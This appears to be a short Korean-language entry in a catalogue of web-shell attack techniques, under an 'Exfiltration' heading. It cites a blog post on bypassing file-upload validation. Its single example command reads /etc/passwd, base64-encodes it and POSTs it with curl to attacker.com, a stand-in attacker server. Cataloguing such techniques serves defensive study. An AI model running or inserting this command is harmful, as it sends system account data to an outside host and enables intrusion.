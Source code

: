 ### Exfiltration

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Remote Data Exfiltration</td>
      <td><pre><code># 웹셀 내부에서 실행될 수 있는 예시 명령어
curl -X POST -d "data=$(cat /etc/passwd | base64)" http://attacker.com/data_leak</code></pre></td>
      <td>웹셸을 통해 서버 내 민감 정보(cat /etc/passwd 등)를 조회하고, curl 등의 도구를 이용해 외부 공격자 서버로 유출하여 추가 피해를 유발한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

---

## 분류에 해당하는 문서
- [1] [Breaking Down Multipart Parsers: File upload validation bypass](https://blog.sicuranext.com/breaking-down-multipart-parsers-validation-bypass/)  
